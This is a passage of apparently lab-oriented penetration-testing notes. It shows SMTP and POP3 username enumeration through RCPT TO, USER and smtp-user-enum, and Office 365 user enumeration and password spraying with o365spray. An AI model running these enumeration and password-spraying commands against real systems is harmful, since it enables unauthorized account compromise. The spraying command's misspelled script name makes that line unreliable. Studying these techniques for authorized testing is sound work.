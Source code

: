 ```bash
RCPT TO:john

250 2.1.5 john... Recipient ok
```

#### USER 
- We can use POP3-USER command to enumerate users: `telnet $IP 110`
```bash
USER julio

-ERR

USER john

+OK

```

### [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
- Automate enumeration process
```bash
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7

# Options
-M: the command used (VRFY, EXPN, RCPT)
-U: list of users
-D: domain for the email address
-t: target
```
- Note: This doesn't work all the time. Double check with Metasploit (auxiliary/scanner/smtp/smtp_enum)
-----
# CLOUD ENUMERATION
-----
### [o365spray](https://github.com/0xZDH/o365spray)
- Username enumeration and password spraying tool
- First we validate the domain
```bash
python3 o365spray.py --validate --domain $DOMAIN
```

- Identify usernames
```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

- Password Spraying
```bash
python3 -365spray.py --spray -U $USER_FILE -p $PASS --count 1 --lockout 1 --domain $DOMAIN
```
